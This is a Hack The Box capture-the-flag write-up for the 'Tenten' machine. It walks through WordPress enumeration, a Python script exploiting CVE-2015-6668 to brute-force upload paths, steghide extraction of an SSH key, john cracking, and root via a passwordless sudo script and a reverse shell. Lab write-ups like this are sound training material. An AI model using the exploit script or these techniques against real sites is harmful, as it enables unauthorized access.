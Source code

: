 ```yaml
---
title:     "Hack The Box - Tenten"
tags: [linux,medium,sudo,wordpress,plugin]
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/1.png)

We are going to pwn Tenten from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/8>


Like always begin with our Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/2.png)<br/>
Since its a wordpress site we can enumerate using ``wpscan`` to get see if there is any users and plugins available<br/>
Found a Plugin called ``job-manager``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/3.png)

Found an User  ``takis``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/4.png)

I started searching for any exploits available for that plugin and found

>https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/

From the blog I found there is a directory ``/index.php/jobs/apply/@@/``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/5.png)

As we can see there is an ID and when I changed to some random numbers and job title has been changed.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/6.png)

So I started trying some random number to check if there is anything useful for us.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/7.png)<br/>
Found this ``HackerAccessGranted`` from the ID 13 , Which looks suspecious.

In WordPress there is directory structure for the uploaded files is recognized by ``/wp-content/uploads/%year%/%month%/%filename%``
 
There is a python script given in the above Link ``CVE-2015-6668`` which helps to find the exact directory of the file location by bruteforcing.

I did some modifications on the script 

> - Changed the year range to the year of the box released.
> - Changed the extensions.

```
import requests

print """  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
"""  
website = raw_input('Enter a vulnerable website: ')  
filename = raw_input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2017,2018):  
    for i in range(1,13):
        for extension in {'jpg','jpeg','png','pdf','txt'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
```

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/8.png)<br/>
It found the exact location of the file ``HackerAccessGranted``

Opened the link and its an image.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/9.png)

This is the image we found!!<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/10.1.jpg)

Downloaded it to my machine to check with ``steghide`` to see if there is anything hidden.

> steghide - a steganography program

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/10.png)

Got SSH Private key so lets use ssh2john before cracking it with john<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/11.png)<br/>
I saved the output as ``ssh2john`` and I gave it to ``john`` to crack the password.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/12.png)<br/>

So the password is ``superpassword``. We already know there is an user named ``takis``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/13.png)

## Privilege Escalation:

Like always I started with ``sudo -l``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/14.png)

Looks like we can run ``fuckin`` as root without password.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/15.png)<br/>
``fuckin`` seems to be a script that contains arguments and that we need to pass on.

Lets try with ``whoami``

Now its time to get reverse shell as root using the ``fuckin``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/16.png)

Started my listener<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tenten/17.png)

I got Root!


